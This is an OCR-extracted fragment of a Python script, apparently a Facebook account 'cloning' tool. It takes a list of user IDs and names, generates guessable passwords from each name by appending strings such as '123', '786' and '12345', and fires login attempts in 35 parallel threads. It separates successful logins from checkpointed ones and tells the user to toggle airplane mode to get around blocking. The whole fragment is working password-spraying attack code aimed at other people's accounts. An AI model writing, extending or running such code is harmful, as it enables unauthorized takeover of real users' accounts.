 						if len(xz) == 1:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 2:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 3:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						elif len(xz) == 4:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						else:
							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[1]+'1234', xz[1]+'786']
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		elif yan in ('3', '03'):
			os.system("clear")
			print(banner)
			time.sleep(1)
			print('\033[1;37m[+]\033[1;33m File CLONING CP/OK IDS MIX ')
			print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
			print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
			print(50*"\033[1;97m_")
			print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
			print(50*"\033[1;97m_")
			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):
				for yntkts in self.id:
					try:
						uid, name = yntkts.split('|')
						xz = name.split(' ')
						if len(xz) == 1:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 2:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 3:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						elif len(xz) == 4:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						else:
							pwx = [name, xz[0]+"123", xz[0]+"1234", xz[0]+"786", xz[0]+"12345", xz[0]+"1122"]
						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
					except:
						pass
			os.remove(self.apk)
			hasil(ok,cp)
		else:
			print('\nSalah')
			time.sleep(1)
			self.__pler__()
			
class __filecrack3__:
	def __init__(self):
		self.id = []
	def plerr(self):
		os.system("clear");print(banner)
		print('          \033[1;32m[ File CLONING ONLY OK IDS ] ')
		print(50*"\033[1;97m_")
		try:
			self.apk = input("\033[1;37m[+] \033[1;36mFILE PATH\033[1;31m : \033[1;32m ")
			print ('')
			self.id = open(self.apk).read().splitlines()
		except:
			print('\n \033[1;37m[!] \033[1;31mFile Not Found In Storage')
			input('\n\033[1;37m[*] \033[1;36mPress Enter To Back');main()